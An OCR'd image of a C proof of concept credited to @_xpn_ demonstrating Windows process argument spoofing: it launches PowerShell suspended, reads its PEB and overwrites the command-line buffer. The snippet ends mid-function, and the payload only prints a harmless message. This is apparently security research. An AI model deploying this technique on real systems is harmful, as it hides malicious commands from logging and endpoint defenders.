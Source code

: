 ```php
    PROCESS_INFORMATION pi;
    CONTEXT context;
    BOOL success;
    PROCESS_BASIC_INFORMATION pbi;
    DWORD retLen;
    SIZE_T bytesRead;
    PEB pebLocal;
    RTL_USER_PROCESS_PARAMETERS *parameters;

    printf("Argument Spoofing Example by @_xpn_\n\n");

    memset(&si, 0, sizeof(si));
    memset(&pi, 0, sizeof(pi));

    // Start process suspended
    success = CreateProcessA(
        NULL, 
        (LPSTR)"powershell.exe -NoExit -c Write-Host 'This is just a friendly argument, nothing to see here'", 
        NULL, 
        NULL, 
        FALSE, 
        CREATE_SUSPENDED | CREATE_NEW_CONSOLE,
        NULL, 
        "C:\\Windows\\System32\\", 
        &si, 
        &pi);

    if (success == FALSE) {
        printf("[!] Error: Could not call CreateProcess\n");
        return 1;
    }

    // Retrieve information on PEB location in process
    NtQueryInformationProcess2 ntpi = (NtQueryInformationProcess2)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtQueryInformationProcess");
    ntpi(
        pi.hProcess, 
        ProcessBasicInformation, 
        &pbi, 
        sizeof(pbi), 
        &retLen
    );

    // Read the PEB from the target process
    success = ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, &pebLocal, sizeof(PEB), &bytesRead);
    if (success == FALSE) {
        printf("[!] Error: Could not call ReadProcessMemory to grab PEB\n");
        return 1;
    }

    // Grab the ProcessParameters from PEB
    parameters = (RTL_USER_PROCESS_PARAMETERS*)readProcessMemory(
        pi.hProcess, 
        pebLocal.ProcessParameters, 
        sizeof(RTL_USER_PROCESS_PARAMETERS) + 300
    );

    // Set the actual arguments we are looking to use
    WCHAR spoofed[] = L"powershell.exe -NoExit -c Write-Host Surprise, arguments spoofed\0";
    success = writeProcessMemory(pi.hProcess, parameters->CommandLine.Buffer, (void*)spoofed, sizeof(spoofed));
```
